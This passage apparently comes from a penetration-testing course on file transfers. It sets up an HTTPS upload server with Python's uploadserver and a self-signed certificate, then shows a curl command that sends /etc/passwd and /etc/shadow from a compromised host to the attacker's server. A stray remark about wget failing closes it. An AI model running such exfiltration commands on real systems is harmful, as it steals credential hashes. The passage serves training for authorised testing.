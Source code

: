 ## Web Upload

As mentioned in the `Windows File Transfer Methods` section, we can use [uploadserver](https://github.com/Densaugeo/uploadserver), an extended module of the Python `HTTP.Server` module, which includes a file upload page. For this Linux example, let's see how we can configure the `uploadserver` module to use `HTTPS` for secure communication.

The first thing we need to do is to install the `uploadserver` module.

#### Pwnbox - Start Web Server

Pwnbox - Start Web Server

```shell-session
glack@htb[/htb]$ python3 -m pip install --user uploadserver

Collecting uploadserver
  Using cached uploadserver-2.0.1-py3-none-any.whl (6.9 kB)
Installing collected packages: uploadserver
Successfully installed uploadserver-2.0.1
```

Now we need to create a certificate. In this example, we are using a self-signed certificate.

#### Pwnbox - Create a Self-Signed Certificate

Pwnbox - Create a Self-Signed Certificate

```shell-session
glack@htb[/htb]$ openssl req -x509 -out server.pem -keyout server.pem -newkey rsa:2048 -nodes -sha256 -subj '/CN=server'

Generating a RSA private key
................................................................................+++++
.......+++++
writing new private key to 'server.pem'
-----
```

The webserver should not host the certificate. We recommend creating a new directory to host the file for our webserver.

#### Pwnbox - Start Web Server

Pwnbox - Start Web Server

```shell-session
glack@htb[/htb]$ mkdir https && cd https
```

Pwnbox - Start Web Server

```shell-session
glack@htb[/htb]$ python3 -m uploadserver 443 --server-certificate /root/server.pem

File upload available at /upload
Serving HTTPS on 0.0.0.0 port 443 (https://0.0.0.0:443/) ...
```

Now from our compromised machine, let's upload the `/etc/passwd` and `/etc/shadow` files.

#### Linux - Upload Multiple Files

Linux - Upload Multiple Files

```shell-session
glack@htb[/htb]$ curl -X POST https://192.168.49.128/upload -F 'files=@/etc/passwd' -F 'files=@/etc/shadow' --insecure
```

We used the option `--insecure` because we used a self-signed certificate that we trust.
 
    Not i tried to use wget but it just doesnt work